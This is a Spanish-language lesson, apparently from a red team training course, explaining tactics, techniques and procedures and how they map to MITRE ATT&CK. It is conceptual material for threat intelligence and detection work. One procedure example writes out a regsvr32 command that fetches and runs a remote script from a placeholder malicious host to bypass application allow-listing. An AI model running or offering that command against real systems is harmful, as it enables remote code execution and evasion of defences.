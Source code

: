 ## **¿Qué son los TTP?**

**TTP** representar **Tácticas, técnicas y procedimientos**. Estos son tres elementos jerárquicos utilizados para describir y categorizar el comportamiento de los actores de amenazas. Los TTP son fundamentales para las operaciones del Equipo Rojo, la inteligencia de amenazas y marcos como **MITRE ATT&CK**.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/ttps-concept#user-content-1-tactics)**1. Tácticas**

- **El objetivo estratégico de un adversario.**
- Las tácticas representan **por qué** Un adversario está realizando una acción particular.
- Cada táctica define una fase en el ciclo de vida del ataque (por ejemplo, obtener acceso, mantener el control).
- **Ejemplos:**
    - Acceso inicial
    - Persistencia
    - Evasión de defensa
    - Comando y control
    - Exfiltración

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/ttps-concept#user-content-2-techniques)**2. Técnicas**

- **El método general utilizado para lograr la táctica.**
- Las técnicas describen **cómo** Un adversario logra un objetivo específico.
- Una táctica puede tener múltiples técnicas asociadas.
- **Ejemplos:**
    - Phishing con un archivo adjunto malicioso (Acceso inicial)
    - Carga lateral de DLL (evasión de defensa)
    - Tarea/trabajo programado (persistencia)

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/ttps-concept#user-content-3-procedures)**3. Procedimientos**

- **La implementación específica de una técnica en un escenario del mundo real.**
- Los procedimientos son los pasos, herramientas o comandos reales utilizados por un actor de amenazas.
- Varían según el adversario, las herramientas y el entorno.
- **Ejemplo:**
    - Un actor APT utiliza `regsvr32 /s /n /u /i:http://malicious.site/payload.sct scrobj.dll` para eludir la lista blanca de aplicaciones.

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/ttps-concept#user-content-why-ttps-matter)**Por qué son importantes los TTP**

- Los TTP proporcionan una **plano de comportamiento** sobre cómo operan los atacantes del mundo real.
- A diferencia de las firmas o los COI, los TTP se centran en **cómo** algo se hace, no sólo **qué** se utiliza.
- Se utilizan para:
    - Caza de amenazas
    - Emulación adversaria
    - Respuesta al incidente
    - Ingeniería de detección

---

### [](https://redteamleaders.coursestack.com/courses/62c9b0f6-6a0a-488c-870b-4ca0ac754378/take/ttps-concept#user-content-ttp-example-breakdown)**Desglose del ejemplo TTP**

|Capa|Descripción|
|---|---|
|**Táctica**|Evasión de defensa|
|**Técnica**|Ejecución de proxy binario firmado: Regsvr32|
|**Procedimiento**|Uso de regsvr32.exe con script remoto para ejecutar código de forma sigilosa|